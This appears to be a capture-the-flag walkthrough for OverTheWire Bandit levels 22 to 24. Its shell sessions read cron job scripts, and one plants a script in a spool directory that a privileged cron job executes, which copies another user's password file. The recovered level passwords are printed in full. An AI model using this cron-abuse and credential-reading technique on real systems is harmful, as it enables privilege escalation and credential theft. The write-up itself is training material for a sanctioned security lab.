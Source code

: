 #### Level 22 to 23

	bandit22@melinda:~$ ls /etc/cron.d
	behemoth4_cleanup  cronjob_bandit22  cronjob_bandit24       leviathan5_cleanup    melinda-stats          natas-stats      natas25_cleanup~  natas27_cleanup  semtex0-32  semtex0-ppc  sysstat  vortex20
	cron-apt           cronjob_bandit23  cronjob_bandit24_root  manpage3_resetpw_job  natas-session-toucher  natas25_cleanup  natas26_cleanup   php5             semtex0-64  semtex5      vortex0
	bandit22@melinda:~$ cat /etc/cron.d/cronjob_bandit23
	* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
	bandit22@melinda:~$ cat /usr/bin/cronjob_bandit23.sh
	#!/bin/bash

	myname=$(whoami)
	mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

	echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

	cat /etc/bandit_pass/$myname > /tmp/$mytarget
	bandit22@melinda:~$ echo I am user bandit23 | md5sum | cut -d ' ' -f 1
	8ca319486bfbbc3663ea0fbe81326349
	bandit22@melinda:~$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
	jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

#### Level 23 to 24

	bandit23@melinda:~$ ls /etc/cron.d
	behemoth4_cleanup  cronjob_bandit22  cronjob_bandit24       leviathan5_cleanup    melinda-stats          natas-stats      natas25_cleanup~  natas27_cleanup  semtex0-32  semtex0-ppc  sysstat  vortex20
	cron-apt           cronjob_bandit23  cronjob_bandit24_root  manpage3_resetpw_job  natas-session-toucher  natas25_cleanup  natas26_cleanup   php5             semtex0-64  semtex5      vortex0
	bandit23@melinda:~$ cat /etc/cron.d/cronjob_bandit24
	* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
	bandit23@melinda:~$ cat /usr/bin/cronjob_bandit24.sh
	#!/bin/bash

	myname=$(whoami)

	cd /var/spool/$myname
	echo "Executing and deleting all scripts in /var/spool/$myname:"
	for i in * .*;
	do
	    if [ "$i" != "." -a "$i" != ".." ];
	    then
		echo "Handling $i"
		timeout -s 9 60 "./$i"
		rm -f "./$i"
	    fi
	done


	bandit23@melinda:~$ mkdir /tmp/getmdp
	bandit23@melinda:~$ cd /tmp/getmdp
	bandit23@melinda:/tmp/getmdp$ echo "cat /etc/bandit_pass/bandit24 >> /tmp/getmdp/mdp" >> script.sh
	bandit23@melinda:/tmp/getmdp$ chmod -R 777 ./
	bandit23@melinda:/tmp/getmdp$ cp /tmp/getmdp/script.sh /var/spool/bandit24/
	bandit23@melinda:/tmp/getmdp$ ls
	mdp  script.sh
	bandit23@melinda:/tmp/getmdp$ cat mdp
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ


#### Level 24 to 27

Following soon !
